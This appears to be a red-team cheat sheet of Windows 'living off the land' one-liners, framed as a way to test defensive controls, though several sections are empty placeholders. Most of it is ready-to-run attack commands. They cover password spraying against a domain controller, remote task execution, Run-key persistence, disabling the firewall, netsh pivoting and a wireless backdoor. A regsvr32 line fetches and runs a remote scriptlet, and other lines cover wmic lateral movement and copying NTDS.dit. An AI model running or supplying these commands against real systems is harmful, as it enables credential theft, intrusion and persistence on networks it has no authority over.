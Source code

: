 # Native - Living off the land

Living off the land is using native operating system utilities to bypass controls in place. At most organizations, this will be AppWhitelisting, AV, endpoint detection software and so on. From the endpoint to the network, you should see some type of activity occur. If you have deep packet inspection, and a sct file is downloaded with powershell, did your network device detect or prevent this? Remember, this is to determine if your current controls are properly working as they were described to you.

## One Liners


## net.exe

### Password Spraying

http://pwnwiki.io/#!privesc/windows/index.md#Password_Spraying

    net user /domain > DomainUsers.txt
    echo "Password1" >> pass.txt
    echo "1q2w3e4r" >> pass.txt

For loop:

    @FOR /F %n in (DomainUsers.txt) DO @FOR /F %p in (pass.txt) DO @net use \\COMPANYDC1\IPC$ /user:COMPANY\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\COMPANYDC1\IPC$ > NUL

## at.exe

Note: deprecated in Windows 8+

### Privileged Escalation

This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.

http://pwnwiki.io/#!privesc/windows/index.md

Input:

    at 13:20 /interactive cmd

Example:

    net use \\[computername|IP] /user:DOMAIN\username password
    net time \\[computername|IP]
    at \\[computername|IP] 13:20 c:\temp\evil.bat

## schtask.exe

### Launch Interactive cmd.exe

Input:

    SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10


## reg.exe

Input:

    code here

Output:

    code here

reg add hkcu\software\microsoft\windows\currentversion\run /v netshare /f /d %temp%\notilv.exe /t REG_EXPAND_SZ

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v ausMfTQVsuC /t REG_EXPAND_SZ /d "\"C:\Users\IEUser\AppData\Roaming\Oracle\bin\javaw.exe\" -jar \"C:\Users\IEUser\wBJLxnECLJF\FysHVwDWznz.ICgcjG\"" /f

## Netsh.exe

http://pwnwiki.io/#!pivoting/windows/windows_cmd_network.md

### Firewall Control

Input:

    netsh firewall set opmode [disable|enable]

### Netsh.exe Pivoting

Input:

    netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8000 connectaddress=192.168.1.1

Can also support v4tov6, v6tov6, and v6tov4

### Netsh.exe Sniffing

Input:

    netsh trace start capture=yes overwrite=no tracefile=<FilePath.etl>

to stop:

    netsh trace stop

### Netsh.exe Wireless backdoor

Input:

    netsh wlan set hostednetwork mode=[allow\|disallow]
    netsh wlan set hostednetwork ssid=<ssid> key=<passphrase> keyUsage=persistent\|temporary
    netsh wlan [start|stop] hostednetwork

Enables or disables hostednetwork service.
Complete hosted network setup for creating a wireless backdoor.
Starts or stops a wireless backdoor. See below to set it up.

## Regsvr32.exe

Input:

    code here

Output:

    code here

    regsvr32.exe /s /n /u /i:https://<website>/data scrobj.dll

## waitfor.exe

Input:

    code here

Output:

    code here

## wmic.exe

Provided by: https://www.fireeye.com/content/dam/fireeye-www/services/pdfs/sans-dfir-2015.pdf


### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:”192.168.0.1” service where (caption like “%sql server (%”)

Input:

    get-wmiobject –class “win32_share” –namespace “root\CIMV2” –computer “targetname”

### Lateral Movement

Input:

    wmic /node:REMOTECOMPUTERNAME process call create “COMMAND AND ARGUMENTS"

Input:

    wmic /NODE: “192.168.0.1” process call create “evil.exe”

### Privileged Escalation

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create “at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create “cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit“

## bitsadmin.exe

Input:

    code here

Output:

    code here

## Installutil.exe

Download the two binaries:

Input for pshell.dll:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U pshell.dll

Input for rwxhunter.exe:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /U rwxhunter.exe
